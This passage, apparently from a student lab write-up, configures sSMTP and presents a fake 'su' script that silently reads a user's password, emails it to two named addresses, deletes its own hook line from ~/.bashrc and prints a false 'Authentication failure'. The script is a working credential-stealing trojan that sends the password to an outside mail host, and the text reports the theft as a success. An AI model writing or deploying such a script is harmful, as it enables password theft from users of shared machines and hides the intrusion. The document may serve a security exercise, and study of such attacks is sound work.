 Also modify `/etc/ssmtp/revaliases`

```shell
# sSMTP aliases
# 
# Format:       local_account:outgoing_address:mailhub
#
# Example: root:your_login@your.domain:mailhub.your.domain[:port]
# where [:port] is an optional port number that defaults to 25.

willykid:shiweili@sjtu.edu.cn:mail.sjtu.edu.cn:587

```

Finally, we test...

![](./img/mail.png)

Success!

![](img/mail_success.png)

**5. And the fake `su` script...**

Kexuan has also received the password as a carbon copy!

```shell
#!/bin/bash

MAILTO=shiweili@sjtu.edu.cn
CC=kxuan.huang@gmail.com

echo -e "Password: \c"
read -s PASSWD
mail -s "MUM_PASSWD" -C $CC $MAILTO <<< $PASSWD
sleep 5
head -n -1 ~/.bashrc > ~/.bashrc.tmp
mv ~/.bashrc.tmp ~/.bashrc
echo "su: Authentication failure"
exit 1
```
